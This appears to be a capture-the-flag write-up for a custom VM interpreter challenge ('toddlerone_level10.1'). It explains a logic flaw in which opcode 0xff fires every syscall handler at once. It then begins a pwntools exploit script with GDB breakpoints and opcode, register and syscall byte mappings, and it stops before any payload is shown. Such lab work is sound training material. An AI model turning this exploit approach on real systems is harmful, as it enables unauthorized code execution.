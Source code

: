 Logical vulns only! No memory corruption at all, as well as only a single syscall.

My approach - research the interpreter checks for syscall handler. \
It is extremely sus that instead of a switch case, **we may actually trigger all 8 handlers at once** by issuing `0xff` - as all of their bits are on. Moreover, the result of the previous handler is saved within `instr` of the preceding instruction.

By the exact same approach - **we can issue all of the syscalls at once!**

```python
from dataclasses import dataclass
from pwn import *
import os, sys
import struct


BINARY = '/challenge/toddlerone_level10.1'
GDB_SCRIPT= '''
tbreak __libc_start_main
commands
print("breaking CMP")
#b *$rdi-0x1b75+0x176a

print("breaking ADD")
#b *$rdi-0x1b75+0x1492

print("breaking SYS_read")
b *$rdi-0x1b75+0x18d7
end

c

commands 2
print("SYS_READ")
end

'''
DEBUG_FILE_PATH = 'my_payload.txt'

@dataclass
class Regs:
    a = b'\x10'
    b = b'\x01'
    c = b'\x02'
    d = b'\x08'
    s = b'\x04'
    i = b'\x20'
    f = b'\x40'


@dataclass
class Opcodes:
    STM = b''
    IMM = b'\x08'
    ADD = b'\x10'
    CMP = b'\x04'
    JMP = b'\x01'
    LDM = b''
    STK = b''
    SYSCALL = b'\x40'


@dataclass
class Syscalls:
    OPEN = b'\x20'
```